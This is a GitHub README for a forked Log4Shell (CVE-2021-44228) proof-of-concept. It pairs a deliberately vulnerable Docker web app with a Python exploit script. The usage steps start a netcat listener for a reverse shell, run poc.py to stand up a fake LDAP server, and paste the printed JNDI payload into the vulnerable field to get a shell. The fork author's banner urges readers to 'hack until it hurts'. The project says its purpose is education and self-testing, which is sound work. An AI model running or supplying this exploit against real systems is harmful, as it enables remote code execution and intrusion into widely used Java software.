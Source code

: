 # Log4Shell Vulnerable WebApp PoC

############################################################################################
<b>Webmaster-Exit-1's Forked, Updated, Bug fixes, with Correct versions of software NOW included!</b><br>      
############################################################################################
<b>All my fork of this project does is make this tutorial actually useable. I'm not sure why the dev's</b><br>
<b>use incorrect software and software names. Almost as if they we're self sabotaging this project. Very odd.</b><br>
<b>I hope that my updated, corrected fork of this project comes in handy for you all.</b><br>
<b>Hack until it hurts. :)  -- WebMaster-Exit-1</b><br>
############################################################################################

A Proof-Of-Concept vulnerable web application for the Log4J vulnerability (CVE-2021-44228), based off Kozmer's Log4Shell POC.  This simple fork allows a web browser's User Agent to be logged when the site is visited.
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.

## A video showing the exploitation process

Vuln Web App:

<https://user-images.githubusercontent.com/87979263/146113359-20663eaa-555d-4d60-828d-a7f769ebd266.mp4>

Ghidra (Old script):

<https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4>

Minecraft PoC (Old script):

<https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4>

Proof-of-concept (POC)

As a PoC we have created a python file that automates the process.

### Requirements

```bash
pip install -r requirements.txt
```

#### Usage

* Start a netcat listener to accept reverse shell connection.

```py
nc -lvnp 9001
```

* Launch the exploit.
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.

```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

Our vulnerable application

We have added a Dockerfile with the vulnerable webapp. You can use this by following the steps below:

```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```

Once it is running, you can access it on localhost:8080

If you would like to further develop the project you can use Intellij IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

Getting the Java version

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```javascript
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

### Disclaimer

This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.
